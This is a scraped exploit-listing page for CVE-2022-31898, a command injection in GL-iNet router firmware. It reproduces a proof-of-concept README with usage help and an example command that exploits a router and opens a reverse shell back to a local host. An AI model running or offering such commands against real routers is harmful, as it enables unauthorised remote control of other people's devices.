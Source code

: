 ```yaml
---
title: Exploit for OS Command Injection in Gl-Inet Gl-Mt300N-V2 Firmware exploit
url: https://sploitus.com/exploit?id=C7FAFE22-1E90-5F33-9DE1-14C60B5D7BAF&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2022-11-12
fetch_date: 2025-10-03T22:29:29.034643
---
```


# Exploit for OS Command Injection in Gl-Inet Gl-Mt300N-V2 Firmware exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for OS Command Injection in Gl-Inet Gl-Mt300N-V2\_Firmware CVE-2022-31898

2022-11-11 | CVSS 6.8

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=C7FAFE22-1E90-5F33-9DE1-14C60B5D7BAF
# cve-2022-31898
Exploit POC code for CVE-2022-31898, a command injection for GL-iNet routers with firmware below 3.215

# Usage

```
./cve-2022-31898.py -h
usage: cve-2022-31898.py [-h] -R RHOST [-P RPORT] -L LHOST [-l LPORT] [-p PWD] [-t]

options:
  -h, --help            show this help message and exit
  -R RHOST, --rhost RHOST
                        IP/hostname of Mango router
  -P RPORT, --rport RPORT
                        Port to connect to Mango router on
  -L LHOST, --lhost LHOST
                        Local host/IP for reverse shell to connect back to
  -l LPORT, --lport LPORT
                        Local port for reverse shell to connect back on
  -p PWD, --pwd PWD     Password to use to log in
  -t, --https           If set, use HTTPS
```

## Example

Exploit GL-iNet router at `192.168.8.1` over HTTPS and connect back to local box at
`192.168.8.123:8008` with admin password `password`:

```
./cve-2022-31898.py -R 192.168.8.1 -P 443 -L 192.168.8.123 -l 8008 -p password -t
```
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)